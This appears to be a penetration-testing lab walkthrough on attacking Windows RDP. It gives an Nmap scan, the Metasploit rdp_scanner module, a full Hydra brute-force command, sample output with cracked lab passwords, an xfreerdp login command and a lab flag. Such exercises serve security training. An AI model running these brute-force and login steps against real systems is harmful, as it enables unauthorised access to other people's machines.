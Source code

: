 # Exploiting RDP

We can always connect to RDP in a remote machine that is running windows. However, in order to exploit RDP in a target system, you have to posses a legitimate username and password in clear-text for that machine.

RDP port can be changed by the administrator in order to hide the available running rdp server. You always have to make sure if RDP is running in a different port.

# Laboratory

- Run a simple Nmap scan on the target. Run a scan in all ports to spot any out of place open connection.
- In order to identify an RDP server running, you can always try to connect to the open connection. However, in this case we will use MSF to identify and exploit RDP.
*Note*: remember to run `service postgresql start` before starting msfconsole.
- In this case we will use `auxiliary/scanner/rdp/rdp_scanner` to identify RDP on the target.
- Once identified, we will proceed to try to exploit RDP. In this case, we will start by performing a bruteforce attack using Hydra. We can use the following command `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://x.x.x.x -s $PORT`.

[3333][rdp] host: 10.4.23.42   login: sysadmin   password: samantha
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.4.23.42   login: demo   password: victoria
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.4.23.42   login: auditor   password: elizabeth
[ERROR] freerdp: The connection failed to establish.
[STATUS] 5224.00 tries/min, 5224 tries in 00:01h, 1839 to do in 00:01h, 4 active
[3333][rdp] host: 10.4.23.42   login: administrator   password: qwertyuiop

*Note*: Sometimes hydra is too agressive for the target system, we can lower the number of tasks using the -t flag. Default is 16.
- Once some credentials have been found, we want to test them out establishing a connection. For this task, we can use xfreerdp like this: `xfreerdp /u:USERNAME /p:PASSWORD /v:HOST_IP:PORT`.

flag: port-number-3333